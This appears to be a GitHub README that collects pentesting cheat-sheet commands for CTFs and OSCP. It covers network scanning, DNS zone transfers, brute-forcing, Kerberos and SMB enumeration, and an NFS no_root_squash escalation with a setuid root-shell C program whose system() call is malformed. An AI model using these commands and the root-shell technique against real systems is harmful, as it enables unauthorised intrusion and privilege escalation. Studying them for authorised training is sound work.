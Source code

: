 # P3nT3sT
## Collection from HackTheBox, TryHackMe and OverTheWire
Happy Hacking 🦖 https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets

https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques

Pentesting Cheatsheets
Convenient commands for your pentesting / red-teaming engagements, OSCP and CTFs.
Reconnaissance / Enumeration
Extracting Live IPs from Nmap Scan
nmap 10.1.1.1 --open -oG scan-results; cat scan-results | grep "/open" | cut -d " " -f 2 > exposed-services-ips
Simple Port Knocking
for x in 7000 8000 9000; do nmap -Pn –host_timeout 201 –max-retries 0 -p $x 1.1.1.1; done
DNS lookups, Zone Transfers & Brute-Force
whois domain.com
dig {a|txt|ns|mx} domain.com
dig {a|txt|ns|mx} domain.com @ns1.domain.com
host -t {a|txt|ns|mx} megacorpone.com
host -a megacorpone.com
host -l megacorpone.com ns1.megacorpone.com
dnsrecon -d megacorpone.com -t axfr @ns2.megacorpone.com
dnsenum domain.com
nslookup -> set type=any -> ls -d domain.com
for sub in $(cat subdomains.txt);do host $sub.domain.com|grep "has.address";done
Banner Grabbing
nc -v $TARGET 80
telnet $TARGET 80
curl -vX $TARGET
NFS Exported Shares
List NFS exported shares:
showmount -e 192.168.110.102
...and check if 'rw,no_root_squash' is present. If it is present, compile the below sid-shell.c:
#include <unistd.h>
​
main( int argc, char ** argv, char ** envp )
{
    setgid(0); setuid(0); system("/bin/bash", argv, envp);
    return 0;
}
...upload it to the share and execute the below to launch sid-shell to spawn a root shell:
chown root:root sid-shell; chmod +s sid-shell; ./sid-shell
Kerberos Enumeration
# users
nmap $TARGET -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='test'
HTTP Brute-Force & Vulnerability Scanning
target=10.0.0.1; gobuster -u http://$target -r -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 150 -l | tee $target-gobuster
target=10.0.0.1; nikto -h http://$target:80 | tee $target-nikto
target=10.0.0.1; wpscan --url http://$target:80 --enumerate u,t,p | tee $target-wpscan-enum
RPC / NetBios / SMB
rpcinfo -p $TARGET
nbtscan $TARGET
​
#list shares
smbclient -L //$TARGET -U ""
​
# null session
rpcclient -U "" $TARGET